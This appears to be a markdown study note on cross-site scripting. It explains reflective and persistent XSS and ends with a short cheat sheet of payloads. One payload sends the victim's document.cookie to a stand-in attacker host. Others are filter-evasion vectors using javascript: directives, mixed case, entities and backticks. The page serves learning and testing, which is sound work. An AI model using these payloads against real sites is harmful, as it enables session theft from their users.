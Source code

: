 ##### XSS

Key Concepts of XSS

    XSS is a web-based attack performed on vulnerable web applications.
    In XSS attacks, the victim is the user and not the application.
    In XSS attacks, malicious content is delivered to users using JavaScript.

Reflective

There are many ways in which an attacker can entice a victim into initiating a reflective XSS request. For example, the attacker could send the victim a
misleading email with a link containing malicious JavaScript. If the victim clicks on the link, the HTTP request is initiated from the victim's browser and 
sent to the vulnerable web application. The malicious JavaScript is then reflected back to the victim's browser, where it is executed in the context of the 
victim user's session. 

Example*

ATTACKER injects malcious xss into a link, with js steeling the targets cookie. TARGET 

TARGET clicks on malicous link and it send the ATTACKER the cookie, 

Persistent XSS

Consider a web application that allows users to enter a username that is displayed on each user’s profile page. 
The application stores each username in a local database. A malicious user notices that the web application fails to sanitize the username field and inputs
malicious JavaScript code as part of their username. When other users view the attacker’s profile page, the malicious code automatically executes in the context
of their session.

Example

ATTACKER stores XSS on the WEB-APP 
TARGETS who visit the WEB-APP 
WEB-APP sends cookie to ATTACKER

Some simple payloads:

```
"><SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>
```

XSS locator (Polygot) (FilterEvasion)
```
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```
Image XSS Using the JavaScript Directive
```<IMG SRC="javascript:alert('XSS');">
```
No Quotes and no Semicolon
```<IMG SRC=javascript:alert('XSS')>
```
Case Insensitive XSS Attack Vector
```<IMG SRC=JaVaScRiPt:alert('XSS')>```
HTML Entities
The semicolons are required for this to work:
```<IMG SRC=javascript:alert(&quot;XSS&quot;)>```

Grave Accent Obfuscation
```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>```
